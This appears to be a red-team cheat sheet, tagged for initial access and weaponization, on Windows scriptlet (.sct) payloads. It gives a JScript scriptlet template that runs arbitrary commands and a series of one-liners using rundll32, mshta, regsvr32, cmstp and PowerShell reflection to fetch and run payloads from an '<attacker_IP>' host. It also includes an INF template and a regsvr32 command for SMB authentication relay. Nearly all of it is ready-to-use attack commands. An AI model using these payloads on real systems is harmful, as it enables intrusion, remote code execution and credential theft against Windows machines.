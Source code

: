 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - T1117
  - windows
credits:
  - bohops
---
```

# Scriptlet

## 01 - Generate Payloads

### 1.1 - Generate a payload via Empire

TODO: Fill this info

```
(Empire) > usestager windows/launcher_sct
```

### Scriptlet Template

Fileless scriptlet payload template.

```xml
<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="Updater"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            var execute = new ActiveXObject("WScript.Shell").Run("<commands>");    
        ]]>
</script>
</registration>
</scriptlet>
```

## Execute Payload

### 01 - Command Prompt

#### 1.1 - `rundll32.exe`

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http[s]://<attacker_IP>/payload.sct");window.close();
```

#### 1.2 - `mshta.exe`

```
C:\> mshta.exe javascript:execute=GetObject("script:http[s]://<attacker_IP>/payload.sct");execute.Exec();close();

C:\> mshta.exe vbscript:Close(Execute("GetObject(""script:http[s]://<attacker_IP>/payload.sct"")"))
```

#### 1.3 - `regsvr32.exe`

Execute a SCT dropper payload.

```
C:\> regsvr32.exe /s /u /i:payload.sct scrobj.dll
```

Execute a fileless payload.

```
C:\> regsvr32.exe /s /u /i:http[s]://<IP>[:PORT]/payload.sct scrobj.dll

C:\> regsvr32.exe /s /u /i:\\<attacker_IP>\payload.sct scrobj.dll
```

Execute command to perform SMB authentication relay.

```
C:\> regsvr32.exe /s /u /i:\\<attacker_IP>\@snare scrobj.dll
```

#### 1.4 - `cmstp.exe`

Fileless scriptlet payload template

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection

[UnRegisterOCXSection]
%11%\scrobj.dll,NI,http[s]://<IP>[:PORT]/payload.sct

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Yay"
ShortSvcName="Yay"
```

Execute payload.

```
C:\> cmstp.exe /ni /s payload.inf
```

Execute fileless payload.

```
C:\> cmstp.exe /ni /s http[s]://<IP>[:PORT]/payload.inf
```

### 02 - PowerShell

```
PS C:\> [Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:http[s]://<attacker_IP>/payload.sct").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
```

Another PowerShell Assembly Reflection SCT Code Execution Example w/ 'Microsoft.VisualBasic.Interaction' -

```
PS C:\> [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:http[s]://<attacker_IP>/payload.sct').Exec(0)
```

---
## References

### Backlinks

- [[DLL Execution]]

### LOLBAS

- [LOLBAS: Regsvr32](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/)

- [LOLBAS: cmstp](https://lolbas-project.github.io/lolbas/Binaries/Cmstp/)

### Hacktricks

- [Hacktricks: Windows Reverse Shells](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/reverse-shells/windows.html)

### Red Team Notes

- [Red Team Notes: Code Execution - Regsvr32](https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo)

- [Red Team Notes: CMSTP](https://www.ired.team/offensive-security/code-execution/t1191-cmstp-code-execution)
